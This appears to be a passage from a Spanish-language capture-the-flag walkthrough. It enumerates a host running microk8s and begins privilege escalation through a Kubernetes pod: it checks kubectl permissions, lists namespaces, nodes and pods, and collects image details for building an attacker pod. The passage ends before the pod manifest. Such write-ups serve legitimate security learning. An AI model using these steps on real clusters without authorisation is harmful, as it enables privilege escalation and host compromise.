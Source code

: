     Listamos procesos que estan corriendo
        
        frank@dev-01:~$ ps -ax | grep microk8s
        
        700 ?        Ss     0:05 /bin/bash /snap/microk8s/2546/apiservice-kicker
        702 ?        Ss     0:00 /bin/bash /snap/microk8s/2546/run-cluster-agent-with-args
        [...]
    
    Listamos conexiones entrantes y salientes de la maquina
    
        frank@dev-01:~$ ss -a | grep -Ei 'microk8s|kubernetes'
        u_str             LISTEN                 0                   128                                                      @snap.microk8s.dqlite-3297041220608546238 340852                                   
        u_str             LISTEN                 0                   4096                                      /var/snap/microk8s/2546/var/kubernetes/backend/kine.sock 342176                               
        u_str             LISTEN                 0                   4096                             /var/snap/microk8s/common/var/lib/kubelet/pod-resources/161155252 356673  
        [...]
    
    Informacion mas que suficiente para ver que esta corriendo microk8s|kubernetes en la maquina.
   

- Elevamos privilegios mediante Microk8s Kubernetes Pod. Info: https://bishopfox.com/blog/kubernetes-pod-privilege-escalation

  1)Listamos los permisos que tenemos en el espacio de trabajo actual

      # Check to see if I can do everything in my current namespace ("*" means all)

        frank@dev-01:/home/herby$ microk8s kubectl auth can-i '*' '*'
      yes

  2)Obtenemos informacion namespace,nodo y pods

        frank@dev-01:/home/herby$ microk8s kubectl get namespace
        NAME                 STATUS   AGE
        kube-system          Active   679d
        kube-public          Active   679d
        kube-node-lease      Active   679d
        default              Active   679d
        container-registry   Active   679d
  
        frank@dev-01:/home/herby$ microk8s kubectl get node
        NAME     STATUS   ROLES    AGE    VERSION
        dev-01   Ready    <none>   679d   v1.21.5-3+83e2bb7ee39726
  
        frank@dev-01:/home/herby$ microk8s kubectl get pods
        NAME                                READY   STATUS    RESTARTS   AGE
        nginx-deployment-7b548976fd-77v4r   1/1     Running   2          654d

    obtenemos la informacion que necesitamos del pod que esta corriendo, con la ayuda de esa info montaremos el nuestro.

      frank@dev-01:/home/herby$ microk8s kubectl describe pods | grep -Eiw 'name:|node:|image:'
        Name:         nginx-deployment-7b548976fd-77v4r
        Node:         dev-01/10.10.209.46
            Image:          localhost:32000/bsnginx

